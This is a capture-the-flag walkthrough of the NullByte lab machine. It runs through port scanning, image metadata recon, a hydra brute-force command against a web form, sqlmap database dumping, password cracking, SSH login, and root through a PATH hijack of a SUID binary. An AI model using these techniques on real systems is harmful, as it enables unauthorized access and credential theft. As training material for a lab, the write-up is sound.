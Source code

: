```yaml
---
title: NullByte
categories: [Proving Grounds Play]
tags: [Exiftool, Password BruteForce, PrivEsc]
image:
   path: https://miro.medium.com/v2/resize:fit:1200/1*3kROPA6FkXviVVJOMbfkLw.png
   alt: NullByte Machine !
---
```


### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled.png)

```bash
IP : 10.0.2.32
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/NullByte]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.32
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 09:44 IST
Nmap scan report for 10.0.2.32
Host is up (0.0053s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http?
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44254/tcp6  status
|   100024  1          56237/udp   status
|   100024  1          57300/tcp   status
|_  100024  1          59382/udp6  status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 163013d9d55536e81bb7d9ba552fd744 (DSA)
|   2048 29aa7d2e608ba6a1c2bd7cc8bd3cf4f2 (RSA)
|   256 6006e3648f8a6fa7745a8b3fe1249396 (ECDSA)
|_  256 bcf7448d796a194876a3e24492dc13a2 (ED25519)
57300/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:5C:97:BB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%202.png)

Now when I downloaded this ⬆️ eye image I recon over it through exiftool and I found this >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%203.png)

Now When I used this string as a web Directory I got this >>

 

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%204.png)

Source Code ⬇️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%205.png)

Now I have to brute-force the keys to get the exact one >>

```bash
sudo hydra 10.0.2.32 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -P /usr/share/wordlists/rockyou.txt -la
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%206.png)

After Entering this >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%207.png)

I think this data processing workes from mysql so let’s try sqlmap now >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%208.png)

```sql
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```
{: .nolineno}

Lets crack this password >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2010.png)

```bash
Credentials >>
ramses : omega
```
{: .nolineno}

Lets SSH now ⤵️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2012.png)

Now I think ps command is executed here os lets run sh instead of ps on procwatch file →

So  I have to change the Environment variable and include /tmp so that it can execute the sh directory which is copied in tmp directory →

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2013.png)

Now let’s run `./procwatch` ⬇️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2014.png)

```bash
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com

USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----

# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 08:00:27:5c:97:bb brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.32/24 brd 10.0.2.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe5c:97bb/64 scope link 
       valid_lft forever preferred_lft forever
# id    
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
#
```
{: .nolineno}

I am root now !!